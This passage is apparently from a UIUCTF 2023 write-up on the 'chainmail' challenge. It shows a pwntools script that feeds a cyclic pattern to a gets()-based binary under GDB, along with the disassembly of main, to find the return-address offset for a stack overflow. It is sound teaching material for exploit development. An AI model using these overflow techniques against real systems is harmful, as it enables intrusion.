 ## Debugging and Writing an Exploit

At this point, it's time to start writing a solve script. I'm a big fan of the Python pwntools library, which provides a good way to interact with both local binaries and remote network connections, a way to send and receive data easily, including non-ascii data, as well as some convenient ways to tie in debugging with GDB (note: I have the GEF wrapper for GDB to make it display pretty data automatically, would recommend getting GEF or similar). In the Python script below, I import the pwntools library, I set it up to run the local chal binary, and also set up GDB to attach with some specified commends to run automatically; b*main+179 will set a breakpoint on the ret instruction at the end of the main function, which is where the edited return address will be readily visible, and which I determined by using gdb on the chal binary and issuing the command "disas main" (short for disassemble), the output of which is also provided below.

After the script receives the text asking the user to provide a name, it sends back a 100 byte-long cyclic pattern. The cyclic function is another feature of pwntools that produces a non-repeating ascii pattern; the idea is that you can use the debugger, determine which bit of the pattern has overwritten your target (in our case, the return pointer), and determine its offset in order to determine an appropriate length of padding.

```
from pwn import *

target = process('./chal')

pid = gdb.attach(target, 'b *main+179\ncontinue')
#target = remote('chainmail.chal.uiuc.tf', 1337)

print(target.recvuntil(b'recipient'))

payload = cyclic(100)

target.sendline(payload)

target.interactive()
```
```
┌─[✗]─[knittingirl@knittingirl-virtualbox]─[~/CTF/uiuctf23]
└──╼ $gdb ./chal
GNU gdb (Debian 10.1-1.7) 10.1.90.20210103-git
...
(No debugging symbols found in ./chal)
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401288 <+0>:	endbr64 
   0x000000000040128c <+4>:	push   rbp
   0x000000000040128d <+5>:	mov    rbp,rsp
...
   0x0000000000401315 <+141>:	call   0x401100 <gets@plt>
   0x000000000040131a <+146>:	lea    rax,[rbp-0x40]
   0x000000000040131e <+150>:	mov    rsi,rax
   0x0000000000401321 <+153>:	lea    rax,[rip+0xd58]        # 0x402080
   0x0000000000401328 <+160>:	mov    rdi,rax
   0x000000000040132b <+163>:	mov    eax,0x0
   0x0000000000401330 <+168>:	call   0x4010e0 <printf@plt>
   0x0000000000401335 <+173>:	mov    eax,0x0
   0x000000000040133a <+178>:	leave  
   0x000000000040133b <+179>:	ret    
End of assembler dump.
gef➤ 
```
If I run my python script, I'll get a debugger window that I can use to find the offset of my return pointer. I use x/s $rsp to get the contents of the rsp register as a string; on the ret instruction, the program is trying to return to the contents of rsp, which is causing a Segmentation Fault in our case because the first eight bytes of the string are unmapped memory. 
```
```